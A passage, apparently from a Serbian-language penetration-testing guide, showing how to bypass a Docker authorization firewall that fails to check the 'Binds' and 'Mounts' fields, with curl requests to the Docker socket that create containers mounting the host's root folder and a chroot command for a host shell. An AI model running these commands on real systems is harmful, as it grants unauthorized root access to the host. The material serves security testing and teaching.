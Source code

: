 Možete proveriti Docker API na [https://docs.docker.com/engine/api/v1.40/#](https://docs.docker.com/engine/api/v1.40/)

### Neproverena JSON struktura

#### Binds u root-u

Moguće je da je sistem administrator prilikom konfigurisanja Docker firewall-a **zaboravio na neki važan parametar** [**API-ja**](https://docs.docker.com/engine/api/v1.40/#operation/ContainerList) kao što je "**Binds**".\
U sledećem primeru moguće je iskoristiti ovu konfiguraciju da se kreira i pokrene kontejner koji montira root (/) folder hosta:

```bash
docker version #First, find the API version of docker, 1.40 in this example
docker images #List the images available
#Then, a container that mounts the root folder of the host
curl --unix-socket /var/run/docker.sock -H "Content-Type: application/json" -d '{"Image": "ubuntu", "Binds":["/:/host"]}' http:/v1.40/containers/create
docker start f6932bc153ad #Start the created privileged container
docker exec -it f6932bc153ad chroot /host bash #Get a shell inside of it
#You can access the host filesystem
```

{% hint style="warning" %}
Primetite kako u ovom primeru koristimo **`Binds`** parametar kao ključ na nivou korena u JSON-u, ali u API-ju se pojavljuje pod ključem **`HostConfig`**
{% endhint %}

#### Binds u HostConfig-u

Sledite iste instrukcije kao i za **Binds u korenu** izvršavajući ovaj **zahtev** prema Docker API-ju:

```bash
curl --unix-socket /var/run/docker.sock -H "Content-Type: application/json" -d '{"Image": "ubuntu", "HostConfig":{"Binds":["/:/host"]}}' http:/v1.40/containers/create
```

#### Montaže u korenu

Pratite iste instrukcije kao i za **Veze u korenu** izvršavajući ovaj **zahtev** prema Docker API-ju:

```bash
curl --unix-socket /var/run/docker.sock -H "Content-Type: application/json" -d '{"Image": "ubuntu-sleep", "Mounts": [{"Name": "fac36212380535", "Source": "/", "Destination": "/host", "Driver": "local", "Mode": "rw,Z", "RW": true, "Propagation": "", "Type": "bind", "Target": "/host"}]}' http:/v1.40/containers/create
```

#### Montaže u HostConfig-u

Pratite iste instrukcije kao i za **Veze u root-u** izvršavajući ovaj **zahtev** prema Docker API-ju:

